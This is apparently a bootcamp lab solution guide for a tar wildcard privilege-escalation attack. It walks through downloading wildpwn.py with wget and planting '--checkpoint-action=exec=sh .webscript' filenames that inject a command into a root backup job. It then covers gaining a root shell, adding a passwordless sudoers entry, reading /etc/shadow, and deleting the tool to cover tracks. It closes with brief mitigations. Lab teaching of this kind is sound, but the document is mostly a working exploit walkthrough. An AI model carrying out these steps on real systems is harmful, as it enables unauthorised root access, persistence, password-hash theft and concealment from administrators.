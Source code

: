 ## Solution Guide: Exploiting `tar`
​
The goal of this activity is to act out the `tar` exploitation and research how to harden systems against this exploit. 
​
Completing this activity required the following steps: 
​
- Downloading `wildpwn.py` using a non-`sudo` user account. 
- Running the script to generate `.webscript`.
- Archiving the directory with `tar` to run the exploit.
- Verifying that your user can gain `sudo` access.
- Researching mitigation techniques. 
​
### Solutions
​
1. In your VM, switch to the user `jane`, and verify that you have no `sudo` privileges:
​
   - Run `su jane`. Use `password` as the password.
​
   - Run `sudo -l` to confirm that you do not have **super user** privileges.
​
2. Next, we'll look for automated `tar` backup files that can be exploited. 
​
  - As `jane`, run `cd ~/Documents`
​
  - Run `ls -l` to see the archive file, `jane_docs_backup.tar`.
​

      ```
      -rw-r--r-- 1 root root 286720 Apr 28 18:36 jane_docs_backup.tar
      ```
​
3. Download the [wildpwn.py](https://raw.githubusercontent.com/localh0t/wildpwn/master/wildpwn.py) attack tool to your `~/Documents/ExploitTar` directory:
​
   - `cd ~/Documents/ExploitTar`
​
   - `wget https://raw.githubusercontent.com/localh0t/wildpwn/master/wildpwn.py`
​
   - Check the contents of the directory before running the script with `ls -lat`:
​
     ```
     total 16
     drwxr-xr-x 3 jane jane 4096 Apr 28 18:40  .
     drwxr-xr-x 4 jane jane 4096 Apr 28 13:56  ..
     -rw-rw-r-- 1 jane jane 3699 Apr 28 13:54  wildpwn.py
     drwxr-xr-x 2 jane jane 4096 Apr 28 13:52 'important docs'
     -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f9
     -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f8
     -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f7
     -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f6
     -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f5
     -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f4
     -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f3
     -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f2
     -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f10
     -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f1
     ```
​
​
4. Use `wildpwn.py` to generate the malicious files by running:
​

    - Within the `ExploitTar` directory, run `python wildpwn.py tar .` 
    
    - The output will show:
​

        ```
        [!] Selected payload: tar
        [+] Done! Now wait for something like: tar cf archive.tar * on ./. Good luck!
        ```
​
    -  Run `ls -lat` to see our new payload files:
​

        ```
        total 20
        drwxr-xr-x 3 jane jane 4096 Apr 28 18:41  .
        -rw-rw-r-- 1 jane jane    0 Apr 28 18:41 '--checkpoint=1'
        -rw-rw-r-- 1 jane jane    0 Apr 28 18:41 '--checkpoint-action=exec=sh .webscript'
        -rw-rw-r-- 1 jane jane  535 Apr 28 18:41  .webscript
        drwxr-xr-x 4 jane jane 4096 Apr 28 13:56  ..
        -rw-rw-r-- 1 jane jane 3699 Apr 28 13:54  wildpwn.py
        drwxr-xr-x 2 jane jane 4096 Apr 28 13:52 'important docs'
        -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f9
        -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f8
        ...
        ...
        ```
​
5. After waiting 1-2 minutes, we can re-run `ls -lat` to see that the contents of the directory have changed!

​
    - Run `ls -lat` to see:
​


      ```
      total 20
      drwxr-xr-x 4 jane jane 4096 Apr 28 18:42  .
      drwxr-xr-x 2 root root 4096 Apr 28 18:42  .cache
      drwxr-xr-x 4 jane jane 4096 Apr 28 13:56  ..
      -rw-rw-r-- 1 jane jane 3699 Apr 28 13:54  wildpwn.py
      drwxr-xr-x 2 jane jane 4096 Apr 28 13:52 'important docs'
      -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f9
      -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f8
      ```
​
    - Our exploit file should exist inside of a newly created `.cache` directory, with the name, `.cachefile`.
    
​
      - Run `cd .cache` to navigate _into_ the `.cache` directory
      
​
      - Run `ls -lat` to show the hidden `.cachefile` exploit file. 
        
        - `-l`: shows a long-list format of the files. 
        - `-a`: shows entries starting with a `.`.
        - `-t`: sorts by time modified, which we want due to the nature of this exploit.
​
​
6. While still in the `.cache` subdirectory, execute the `.cachefile` within the terminal:
​
   - Run `./.cachefile`  
​
    - You'll see your user prompt change from `jane:$` to `root:#`!
​
​
7. Add `jane` to `/etc/sudoers` so that we'll be able to run any command with superuser privileges.s `root`:
​
   - As `root` run `visudo` and navigate to the following section of the file:
​
     ```bash
     # User privilege specification
     root    ALL=(ALL:ALL) ALL
     ```
​
   - Under that `root` permission, add the following line and save the file:  
​
     ```bash
     jane   ALL=(ALL) NOPASSWD:ALL
 
   - This should allow us to run `sudo` commands as `jane` without having to enter a password.
​
​
8. Log back in as `jane` and verify that you can run commands with `sudo`. 
  
    - Run `su jane`  
​
    - Test your `sudo` permissions with:
​
        - `sudo -l`, and then
​
        - `sudo cat /etc/shadow` 
​
     - If you can see the contents of this file, you have successfully carried out a `tar wildcard attack`, turning `jane` into a superuser!
​
     - Due to how you edited the `visudo` entry above, you shouldn't need to enter your password for this command. Password-less `sudo` permissions allow attackers to rapidly execute elevated instructions on a target machine.
​
    - Remove the `ExploitTar` directory entirely to cover your tracks.
​
        - Run `rm -r ~/Documents/ExploitTar`
​
​
9. Ways to prevent this attack in the future include:
​
   - Preventing users from downloading files from untrusted sources. This will involve enforcing stricter **permissions** on where users can save files.
​
   - Using a tool like `tripwire` to watch the file system for suspicious changes. This will alert you whenever a user downloaded files like `wildpwn.py`, or when backups create files like `.cache/.cachefile`.
    
   - Use a tool like `lynis` to scan the system for security vulnerabilities on a regular basis. This will make it more likely that you will identify malicious files before they have a chance to damage the system.
​
​
If you would like to read more about wildcard attacks, check out  the following references:
​
   - [Back To The Future: Unix Wildcards Gone Wild](https://www.exploit-db.com/papers/33930)
   - [wildpwn's GitHub page](https://github.com/localh0t/wildpwn)
​
--- 
​
